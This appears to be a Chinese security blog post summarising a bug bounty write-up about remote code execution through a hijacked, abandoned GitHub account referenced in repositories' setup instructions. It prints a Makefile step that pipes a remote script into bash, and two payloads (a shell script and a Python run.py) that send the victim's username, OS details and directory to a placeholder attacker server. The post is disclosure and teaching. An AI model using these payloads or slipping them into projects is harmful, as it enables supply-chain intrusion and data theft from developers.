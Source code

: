 #  价值2500 美元的漏洞：通过供应链攻击实现RCE   
原创 骨哥说事  骨哥说事   2025-05-07 01:15  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>#   
  
#   
  
****# 防走失：https://gugesay.com/archives/4236  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlbXyV4tJfwXpicwdZ2gTB6XtwoqRvbaCy3UgU1Upgn094oibelRBGyMs5GgicFKNkW1f62QPCwGwKxA/640?wx_fmt=png&from=appmsg "")  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnkJopjTAeBLic5ZZn74HdicSyGpgfgCtgT2OicibkyvyWYvSwMs8EorRSw2oJMoW0CfxkW48Go575ypg/640?wx_fmt=png&from=appmsg "")  
  
file  
# 前言  
  
今天分享国外白帽小哥在 H1 的一个私有项目上发现 RCE 漏洞的故事，出于隐私原因，文中实际目标程序统一由“redacted”代替。  
# 攻击方式  
  
该漏洞源于在多个项目中持续使用无人认领的 GitHub 帐户。  
## 寻找易受攻击的存储库：  
- github.com/redacted-developer/redacted-search  
  
- github.com/redacted-developer/LLM-something  
  
- 其它项目等  
  
## 利用废弃的 GitHub 帐户  
  
一个关键发现是多个仓库指示用户从未声明的 GitHub 帐户克隆依赖项，例如：  
```
git clone https://github.com/Unclaimed-github-account/redacted-something-search.gitcd redacted-something-search/cp .env.template .envmake deploy
```  
  
由于 Unclaimed-github-account 已被废弃，因此我们能够将其注册到自己的控制之下。  
  
一旦获得了仓库的所有权，攻击者就可以将恶意代码 （ Makefile 和 poc.sh ）上传到开发人员构建和部署过程中克隆的存储库中。  
```
deploy: curl https://raw.githubusercontent.com/Unclaimed-github-account/redacted-something-search/refs/heads/main/poc.sh | bash
```  
  
恶意 poc.sh：  
```
#!/bin/bashusername=$(whoami)os_details=$(uname -a)current_directory=$(pwd)data="username=$username&os_details=$os_details&current_directory=$current_directory"curl -X POST -d "$data" https://<attacker_server>
```  
  
make deploy  
 会命令触发了 Makefile  
 ，下载并执行恶意 poc.sh 脚本，从而导致在受害者的机器上执行远程代码。  
## LLM-something 存储库中的相同问题  
  
同样在 LLM-something 存储库中，用户被指示安装依赖项并运行应用程序：  
```
pip install -r requirements.txtstreamlit run run.py
```  
  
通过修改 run.py 文件来‘悄悄’收集敏感信息，例如：  
- 用户名  
  
- 操作系统详细信息  
  
- 当前工作目录  
  
- IP 地址  
  
恶意 run.py 的代码片段：  
```
import osimport platformimport requestsimport streamlit as stusername = os.getlogin()current_directory = os.getcwd()os_info = platform.system() + " " + platform.release()server_url = "https://<attacker-server>/log"data = {"username": username,"directory": current_directory,"os": os_info}try: response = requests.post(server_url, data=data) st.success(f"Info sent to server! Response: {response.status_code}")except Exception as e: st.error(f"Error sending data: {e}")st.title("System Info Sender")st.write("User info has been sent automatically when you started this app.")
```  
# 漏洞时间线  
- Day0： 发现、利用并向厂商提交报告  
  
- Day7：报告分类，严重程度从 “严重” 降级为 “高” （原因是需要用户交互）  
  
- Day7：获得赏金 2500 美元奖励  
  
- Day23：Unclaimed-github-account 的所有权转回厂商  
  
- Day25：漏洞修复  
  
希望本故事对你有所启发。  
  
原文：https://infosecwriteups.com/the-2500-bug-remote-code-execution-via-supply-chain-attack-3beb07ac1a4c  
  
- END -  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  
